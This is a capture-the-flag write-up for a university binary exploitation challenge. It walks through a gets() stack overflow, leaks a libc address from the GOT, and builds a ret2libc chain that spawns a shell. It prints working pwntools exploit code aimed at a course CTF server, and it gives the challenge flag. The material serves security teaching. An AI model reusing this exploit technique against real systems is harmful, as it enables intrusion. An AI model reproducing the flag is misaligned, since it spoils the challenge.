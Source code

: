 ## Improper Code

[improper](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/improper)  
[improper.c](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/improper.c)  

> This challenge was solved by referring to a similar challenge described in this [YouTube Video](https://www.youtube.com/watch?v=i5-cWI_HV8o). The exploit script is also adapted from the video. The following is my attempt to summarize the key takeaways from the video in the context of this challenge.

> We first run the `checksec` command to check the security bits of our binary

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/checksec.png)

> We can note that `NX` bit is enabled, which denotes not executable. Hence we cannot execute off the stack using shellcode.

> Additionally, Position Independent Executable (`PIE`) is disabled. This will prove useful later on when we talk about the Global Offset Table.

```C
int main() {
  ...
  ...

  char text[64];
  gets(text);

  ...
}
```

> From the code, we can see an obvious buffer overflow vulnerability due to the usage of unsafe `gets()`. However, there are no other functions we can return to, and also we cannot run arbitrary shellcode. Here comes the concept of [Return Oriented Programming (ROP)]((https://en.wikipedia.org/wiki/Return-oriented_programming)).

> Return Oriented Programming is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection and code signing.

> In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets". We can find the ROP gadgets in a binary file using the `ROPgadget` command.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/ropgadget.png)

> Each gadget typically ends in a return instruction (ret) and is located in a subroutine within the existing program and/or shared library code. Chained together, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

> The following shows the number of bytes of all declared variables in the main function

```C
int main() {
  ...
  char a[10] = "hostn";
  char b[70] = "You want this power right?";
  char text[64];
  ...
}
```

> The memory stack layout looks something like this. The stack grows upwards whereas our input to text will be overflowed from top to bottom.

```
text 64
b    70
a    10
RBP  8
RA   8
```

> Thus, to overwrite the return address (RA) and get a segmentation fault, the offset calculated is 64+70+10+8 = `152`.

> We don't know where libc is, so we need to do a memory leak. We have access to `puts()` which prints out something for us to see. Thus, we can call `elf.symbols["puts"]` to give us the address of functions like `gets()` or even `puts()`. What we are doing here is leaking libc address from the Global Offset Table (GOT). The GOT is easy to leak with a call to `puts()`; this is only possible because PIE is disabled.

> The pwntools library have this handy ROP function where we can pass in our binary to get a ROP object that we can work with, which we can subsequently use methods such as `rop.call()`

> Now, we can log the address of puts, and lookup where it might be in libc, which we can find in the [libc database](libc.blukat.me)

```python
from pwn import *

context.arch = "amd64"
offset = 152

elf = ELF("./improper")
p = remote('cs2107-ctfd-i.comp.nus.edu.sg', 4009)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got["puts"]])
rop.call(elf.symbols["main"])

for i in range(7):
    print(p.recvuntil(b"\n"))

payload = [
        b"A"*offset,
        rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"puts found at {hex(puts)}")
```

```
puts found at 0x7f59440915a0
```

> Now that we have the value `0x7f59440915a0`, we can enter it in the libc database, and download the correct version. The binary is 64-bit and the most common architecture is amd64 so we will choose `libc6_2.31-0ubuntu9_amd64.so`

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/libcdatabase.png)

> Now that we have found libc, we first need to put the base address for the runtime of the program in the same context of our current rendition of libc. We need to tell libc to map the base address to what is currently being used and ran with that program. So, because we found the puts address from the currently running binary, we can determine the libc address using `libc.address = puts - libc.symbols["puts"]`

> We will then build another rop chain with `system` and `/bin/sh` to spawn a shell

```python
...
...

libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
        b"A"*offset,
        rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)
p.interactive()
```

> The full exploit script can be found at [exploit.py](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/exploit.py)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/Solved.png)

`CS2107{pR0P3rLy_dr0P_7H4t_1mPRoP3rnE5s}`
